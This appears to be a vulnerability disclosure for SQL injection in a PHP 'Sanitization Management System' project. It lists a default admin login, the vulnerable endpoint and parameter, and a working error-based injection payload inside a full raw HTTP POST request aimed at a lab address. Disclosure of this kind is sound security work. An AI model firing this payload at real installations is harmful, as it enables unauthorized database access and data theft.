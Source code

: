 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Lee

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Execute the following statement to create the "product_list" table

```sql
CREATE TABLE `product_list` (
  `id` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /php-sms/classes/Master.php?f=delete_product

Vulnerability location: /php-sms/classes/Master.php?f=delete_product, id

dbname =sms_db,length=6

[+] Payload:  id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id


```sql
POST /php-sms/classes/Master.php?f=delete_product HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/php-sms/admin/?page=services
Content-Length: 65
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/195978453-4c57fb72-6804-4eeb-9e3d-a9ed923a0cc4.png)


